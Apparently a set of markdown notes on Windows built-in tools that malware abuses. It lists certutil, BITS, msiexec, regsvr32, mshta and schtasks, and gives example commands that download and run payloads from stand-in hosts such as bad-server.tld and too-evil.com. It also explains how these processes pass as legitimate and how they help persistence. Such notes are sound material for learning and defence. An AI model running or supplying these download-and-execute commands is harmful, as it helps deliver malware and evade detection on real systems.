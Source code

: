 # Windows


## Used Windows tools

Windows has some tools which facilitate running malware:

**CertUtil.exe  (tool to manage certificates)**
    - can download certificate (PEM) from url
    - `certutil -urlcache -f <url> malicious1.txt` -> download
    - `certutil -decode malicious1.txt malicious.gzip` decode

**BitsTransfer (Service "Background Intelligent Transfer Service)**
    - Service to transfer data between server and client
    - via powershell download file: `Start-BitsTransfer -Source http://bad-server.tld/payload.exe -Destination %APPDATA%/o.exe`

**Msiexec (for msi)**
    - to run msi files
    - Advantages: process is msiexec and considered legitimate, payload is in msi file and usually considered clean

**regsvr32.exe (register dll's)**
    - File can be downloaded and executed. Example: `regsvr32 /u /s /i:https://too-evil.com/payload.php scrobj.dll`
        - process would be regsvr32, which is usually considered legitimate

**mshta.exe (tool to run hta scripts)**
    - HTA scripts are html like applications that can run outside the browsers
    - example: `mshta http://too-evil.com/payload.php` (process will be mshta.exe which is considered legitimate)

**schtasks (Windows task scheduler)**
    - Service "Task Scheduler"
    - is not only used to run but also to persist malware


